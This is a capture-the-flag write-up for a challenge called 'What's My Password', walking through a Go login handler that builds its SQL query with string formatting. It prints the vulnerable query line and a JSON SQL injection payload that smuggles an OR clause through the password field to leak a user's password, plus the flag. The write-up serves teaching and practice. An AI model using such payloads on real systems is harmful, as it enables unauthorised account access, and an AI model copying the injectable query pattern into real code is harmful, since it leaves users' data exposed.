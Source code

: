 # What's My Password

### Solution

From the given zip file, we get a SQL file contains some information about the database. There is a ```users``` table with two columns, ```username``` and ```password```. There are 3 users defined but ```skat```'s password is redacted.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```
We also get Go file named ```main``` that contains ```SELECT``` statement for the response.
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```
Since there is no parameter verification for password, we can assume that password field is vulnerable to SQLi. We can use this payload to get the password. 


```json
{
"username":"skat","password":"'\" OR (username = \"skat\" AND password LIKE \"irisctf%\") OR \"'"
}
```

If the JSON payload is substituted into the SQL statement, it will looks like this

```sql
SELECT * FROM users WHERE username = "skat" AND password = "'" OR (username = "skat" AND password LIKE "irisctf%") OR "'"
```

![alt text](images/whatsmypass.PNG)

### Flag 
The flag for this challenge is ```irisctf{my_p422W0RD_1S_SQl1}```
